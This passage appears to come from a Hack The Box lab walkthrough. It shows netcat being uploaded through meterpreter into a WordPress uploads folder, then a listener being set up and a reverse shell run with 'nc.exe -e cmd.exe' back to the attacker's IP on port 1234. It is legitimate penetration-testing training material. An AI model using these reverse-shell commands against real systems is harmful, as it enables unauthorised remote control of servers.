 We then navigate to a writeable directory on the server (in our case
**C:/inetpub/wwwroot/wordpress/wp-content/upload**s) and upload netcat.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image105.png"></div>

The command to use is the “upload” command: **upload nc.exe**
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image106.png"></div>

We can see now the nc.exe program in the “upload” folder
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image107.png"></div>

### &#9702; ***Using Netcat***

On another terminal we can now launch a listener
``` shell 
kali@kali: ~/HTB/StartingPoint/Tools $  nc –lvp 1234
listening  on  [any]  1234 …
```

Next, we can execute the meterpeter followinginto the meterpreter session

``` code
meterpreter  >  execute  -f  nc.exe  -a  "-e  cmd.exe  10.10.14.16  1234"
```

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image109.png"></div>

